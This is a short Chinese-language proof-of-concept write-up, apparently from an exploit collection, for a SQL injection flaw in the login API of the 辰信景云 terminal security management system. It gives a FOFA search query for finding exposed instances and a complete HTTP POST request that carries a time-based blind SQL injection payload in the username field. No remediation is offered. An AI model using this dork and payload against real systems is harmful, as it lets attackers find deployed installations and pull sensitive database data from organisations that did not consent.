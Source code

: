 # 辰信景云终端安全管理系统login  SQL注入漏洞 

## 1.漏洞描述

辰信景云终端安全管理系统 login 存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 2.搜索语法

```plain
fofa："辰信景云终端安全管理系统" && icon_hash="-429260979"
```

## 3.漏洞复现

```plain
POST /api/user/login HTTP/2
Host: 127.0.0.1
Content-Length: 102
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(5))a)='
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/5dac62c6-19f2-42f3-a664-e73dbc93aba8)
